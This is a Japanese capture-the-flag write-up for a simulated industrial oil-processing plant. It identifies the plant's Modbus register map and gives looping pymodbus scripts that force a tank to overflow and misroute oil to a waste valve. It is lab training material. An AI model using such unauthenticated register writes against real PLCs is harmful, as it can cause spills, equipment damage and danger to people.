 # Attacking ICS Plant #2 CTF

https://tryhackme.com/room/attackingics2

レジスタは７種類。

```
供給ポンプを開閉する (PLC_FEED_PUMP)
タンクレベルセンサー (PLC_TANK_LEVEL)
出口バルブを開閉する（PLC_OUTLET_VALVE）
分離容器バルブ（PLC_SEP_VALVE）を開閉
廃油カウンター（PLC_OIL_SPILL）
処理油カウンター（PLC_OIL_PROCESSED）
廃水バルブを開閉 (PLC_WASTE_VALVE)
```

## レジスタ識別

初期状態から、供給ポンプが開いた

供給ポンプ開閉＝1

```
[0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
[1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
```

タンクレベルセンサー到達、出口バルブが開いた

タンクレベルセンサー＝2  
出口バルブ開閉＝3

```
[0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
[0, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
[0, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
```

排水が開いた

排水バルブ＝8

```
[0, 1, 0, 0, 0, 3, 106, 1, 0, 0, 0, 0, 0, 0, 0, 0]
[0, 1, 0, 0, 0, 3, 106, 1, 0, 0, 0, 0, 0, 0, 0, 0]
[0, 1, 0, 0, 0, 3, 106, 1, 0, 0, 0, 0, 0, 0, 0, 0]
```

セパレーターベッセルバルブが開いた

セパレーターベッセルバルブ＝4

```
[0, 0, 0, 1, 0, 5, 112, 1, 0, 0, 0, 0, 0, 0, 0, 0]
[0, 0, 0, 1, 0, 5, 115, 1, 0, 0, 0, 0, 0, 0, 0, 0]
[0, 0, 0, 1, 0, 5, 121, 1, 0, 0, 0, 0, 0, 0, 0, 0]
[0, 0, 0, 1, 0, 5, 137, 1, 0, 0, 0, 0, 0, 0, 0, 0]
```

廃油カウンター＝6  
処理油カウンター＝7

まとめ
```
供給ポンプ開閉＝1
タンクレベルセンサー＝2
出口バルブ開閉＝3
セパレーターベッセルバルブ＝4
廃油カウンター＝6
処理油カウンター＝7
排水バルブ＝8
```

## タンクをオーバーフローさせる

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
  client.write_register(1, 1)  # 供給ポンプON
  client.write_register(2, 0)  # タンクレベルセンサーOFF
  client.write_register(3, 0) # 出力バルブOFF
```

## オイルを廃水バルブのみに流す

明らかにタスク説明の文と矛盾しているが、ヒントに従って下記が正解。

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
  client.write_register(1, 1)  # 供給ポンプON
  client.write_register(3, 1) # 出力バルブON
  client.write_register(4, 1) # セパレーターベッセルバルブON
  client.write_register(8, 0) # 排水バルブOFF
```
